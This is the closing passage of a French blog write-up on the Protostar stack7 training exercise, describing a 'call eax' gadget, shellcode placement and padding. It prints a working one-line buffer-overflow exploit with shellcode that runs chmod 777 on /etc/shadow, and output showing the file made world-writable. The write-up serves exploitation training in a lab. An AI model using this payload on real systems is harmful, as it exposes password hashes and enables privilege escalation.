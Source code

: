 Avec ROPgadget on trouve facilement un gadget utile pour sauter sur l'adresse pointée :

```nasm
0x080484bf : call eax
```

Seulement à cause de cet appel supplémentaire la pile est aussi modifiée ce qui signifie que des instructions invalides peuvent être placées au milieu de notre shellcode.

Il apparait ici que la modification est plutôt faite vers la fin donc on va éviter d'utiliser un nopsled (dont on n'a pas besoin ici) et plutôt mettre le shellcode en tête suivi de padding 'qui pourra être écrasé sans problèmes).

On va aussi avoir recours à un shellcode court comme [Linux/x86 - chmod 777 /etc/shadow + exit() Shellcode (33 bytes)](https://www.exploit-db.com/shellcodes/37285) :

```bash
$ python -c 'print "\x31\xc0\x50\x68\x61\x64\x6f\x77\x68\x63\x2f\x73\x68\x68\x2f\x2f\x65\x74\xb0\x0f\x89\xe3\x66\xb9\xff\x01\xcd\x80\x31\xc0\x40\xcd\x80" + "A"*47 +"\xbf\x84\x04\x08"' | ./stack7
input path please: got path 1�Phadowhc/shh//et���f��̀1�@̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�AAAAAAAAAAAA��
$ ls -al /etc/shadow
-rwxrwxrwx 1 root shadow 938 Nov 24  2011 /etc/shadow
```

C'est terminé pour ces exercices concernant la stack :-)

EDIT: Il y a apparemment ce site qui reprend le projet de manière assez officielle : [Protostar :: Andrew Griffiths' Exploit Education](https://exploit.education/protostar/)

*Publié le 5 janvier 2023*
